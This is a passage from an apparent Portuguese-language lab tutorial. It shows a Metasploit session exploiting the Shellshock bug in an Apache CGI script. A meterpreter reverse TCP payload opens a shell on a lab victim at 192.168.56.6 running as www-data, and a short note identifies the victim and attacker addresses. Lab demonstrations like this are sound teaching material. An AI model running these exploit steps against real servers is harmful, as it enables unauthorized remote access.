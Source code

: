 ```console
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0
                                              to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[-] Msf::OptionValidateError The following options failed to validate: TARGETURI
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/hello_world.sh
targeturi => /cgi-bin/hello_world.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.168.56.5:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (989032 bytes) to 192.168.56.6
[*] Meterpreter session 2 opened (192.168.56.5:4444 -> 192.168.56.6:38269) at 2022-09-20 09:44:08 -0400

meterpreter > getuid
Server username: www-data
meterpreter > ls
Listing: /var/www/cgi-bin
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  72    fil   2020-10-29 15:28:07 -0400  hello_world.sh

meterpreter >
```
Neste exemplo a vítima tem o IP 192.168.56.6, o atacante o 192.168.56.5, também há um *script* na vítima em: ``/cgi-bin/hello_world.sh``.
